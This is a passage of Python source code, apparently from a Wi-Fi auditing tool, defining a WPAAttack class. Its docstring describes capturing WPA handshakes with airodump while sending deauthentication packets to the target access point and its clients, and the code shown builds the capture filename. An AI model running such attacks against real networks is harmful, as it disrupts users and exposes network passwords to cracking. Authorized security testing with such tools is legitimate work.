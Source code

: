    @abc.abstractmethod
    def EndAttack(self):
        raise NotImplementedError()


#################
# WPA FUNCTIONS #
#################
class WPAAttack(Attack):
    def __init__(self, iface, target, clients, config):
        self.iface = iface
        self.clients = clients
        self.target = target
        self.RUN_CONFIG = config

    def RunAttack(self):
        '''
            Abstract method for initializing the WPA attack
        '''
        self.wpa_get_handshake()

    def EndAttack(self):
        '''
            Abstract method for ending the WPA attack
        '''
        pass

    def wpa_get_handshake(self):
        """
            Opens an airodump capture on the target, dumping to a file.
            During the capture, sends deauthentication packets to the target both as
            general deauthentication packets and specific packets aimed at connected clients.
            Waits until a handshake is captured.
                "iface"   - interface to capture on
                "target"  - Target object containing info on access point
                "clients" - List of Client objects associated with the target
            Returns True if handshake was found, False otherwise
        """

        if self.RUN_CONFIG.WPA_ATTACK_TIMEOUT <= 0: self.RUN_CONFIG.WPA_ATTACK_TIMEOUT = -1

        # Generate the filename to save the .cap file as <SSID>_aa-bb-cc-dd-ee-ff.cap
        save_as = self.RUN_CONFIG.WPA_HANDSHAKE_DIR + os.sep + re.sub(r'[^a-zA-Z0-9]', '', self.target.ssid) \
                  + '_' + self.target.bssid.replace(':', '-') + '.cap'

        # Check if we already have a handshake for this SSID... If we do, generate a new filename
        save_index = 0
        while os.path.exists(save_as):
            save_index += 1
            save_as = self.RUN_CONFIG.WPA_HANDSHAKE_DIR + os.sep + re.sub(r'[^a-zA-Z0-9]', '', self.target.ssid) \
                      + '_' + self.target.bssid.replace(':', '-') \
                      + '_' + str(save_index) + '.cap'
